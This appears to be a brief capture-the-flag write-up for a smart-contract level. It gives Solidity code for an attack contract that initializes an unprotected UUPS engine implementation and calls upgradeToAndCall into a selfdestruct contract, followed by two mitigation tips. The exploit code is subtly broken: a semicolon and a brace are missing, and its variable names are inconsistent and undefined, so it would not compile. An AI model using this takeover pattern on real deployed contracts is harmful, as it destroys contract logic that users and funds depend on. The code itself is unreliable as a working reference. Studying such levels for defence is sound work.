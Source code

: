 ## Exploit


We will need two contracts..

### Custom Implementation contract..


```solidity
contract SelfDestruct {
    
    function exploit() external{
        selfdestruct(address(0))
    }
```

### The exploit contract...

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack{
    
    Engine engine = Engine(_EngineAddress);
    
    function upgrade() external{
        
        engineAddress.initialize();
        bytes memory encodedData = abi.encodeWithSignature("exploit()");
        engineAddress.upgradeToAndCall(_selfDestrucAddress, encodedData);
    }
}
```
## Mitigation
- Make sure to guard sensetive and application critical function with access modifiers.
- Always be mindfull of the context in which a fucntion is being called and where the state variables are stored and modified.
